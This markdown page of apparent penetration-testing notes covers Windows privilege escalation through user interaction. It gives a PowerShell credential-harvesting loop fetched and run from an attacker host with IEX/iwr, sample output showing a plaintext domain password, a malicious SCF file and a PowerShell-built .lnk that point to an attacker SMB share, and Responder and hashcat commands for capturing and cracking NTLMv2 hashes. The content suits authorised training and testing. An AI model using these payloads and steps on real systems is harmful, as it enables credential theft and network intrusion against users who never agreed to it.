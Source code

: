 ```yaml
---
title: Windows User interactions
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege
  - escalation
  - windows
---
```



Users are sometimes the weakest link in an organization.

## Traffic Capture

It is always worth running `tcpdump` or `Wireshark` for a while to see what types of traffic are being passed over the wire and if we can see anything interesting.

- Wireshark: While not highly likely, if `Wireshark` is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up. Unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default. 
- The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file.

## Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below.  It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```shell-session
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

#### Running Monitor Script on Target Host

We can host the script on our attack machine and execute it on the target host as follows.

```powershell-session
 IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

This is successful and reveals the password for the `sqlsvc` domain user, which we could then possibly use to gain access to the SQL02 host or potentially find sensitive data such as database credentials on the `backups` share.

Output: 

```powershell-session
InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```


## Vulnerable Services

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1.

- When this particular version of Docker starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation.
- The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`.
- This directory was misconfigured to allow full write access to the `BUILTIN\Users` group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).
- Any executable placed in that directory would run when a) the Docker application starts and b) when a user authenticates using the command `docker login`.


## Shell Command File (SCF) on a File Share

>Using SCFs no longer works on Server 2019 hosts


A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc.

An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation.

**1.** Create the file @Inventory.sfc:

```
[Shell]
Command=2
IconFile=\\$IPAttacker\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

**2**  Save it in a share:

```
# Enumerate the local shares:
Get-SmbShare
```

Output:

```
Name              ScopeName Path                 Description
----              --------- ----                 -----------
ADMIN$            *         C:\Windows           Remote Admin
C$                *         C:\                  Default share
Department Shares *         C:\Department Shares
IPC$              *                              Remote IPC
```

In this case we have write permissions on `C:\Department Shares\Public\IT` . We save there @Inventory.sfc.

**3.** Start responder in the attacker machine: 

```shell-session
sudo responder -w -d -I tun0
```

**3.** Cracking NTLMv2 Hash with Hashcat

```shell-session
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```


## Capturing Hashes with a Malicious .lnk File

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file.

We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file.

We can also make one using a few lines of PowerShell, malicious.lnk:

```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```